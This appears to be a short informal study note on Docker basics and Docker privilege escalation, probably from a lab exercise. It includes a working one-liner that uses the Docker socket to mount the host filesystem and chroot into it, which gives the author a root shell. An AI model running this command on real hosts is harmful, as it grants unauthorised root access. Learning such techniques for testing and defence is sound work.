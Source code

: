 Docker is a popular open-source tool that provides a portable and consistent runtime environment for software applications.

Made of docker daemon and docker client
images are immutable and read only.. containers can be motified druing runtime.

**Docker Privilege Escalation**
alot of confusing things... 
docker image ls did return an image from 2 years ago

running following one lineer works.. docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
puts me in a bash shell as root. 
